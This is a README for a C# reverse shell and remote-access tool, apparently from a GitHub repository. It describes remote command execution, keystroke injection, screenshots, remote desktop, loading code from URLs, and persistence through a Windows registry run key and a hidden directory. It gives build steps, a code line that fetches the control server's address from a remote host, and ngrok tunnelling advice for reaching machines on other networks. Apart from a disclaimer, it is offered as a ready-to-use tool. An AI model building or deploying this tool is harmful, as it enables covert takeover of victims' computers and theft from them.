 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : <a target="_blank" href="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">reverse_shell.gif</a>
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">

##### - MessageBox and SendKeys
If You Don't see : https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif
<img src="https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif">
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
#### check for in this repositery remote-desktop.gif
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.


<p align="center"><img src="https://ipipip-gh.0xsql.repl.co/reverse-shell/views.png" alt="Visitors"></a></p>
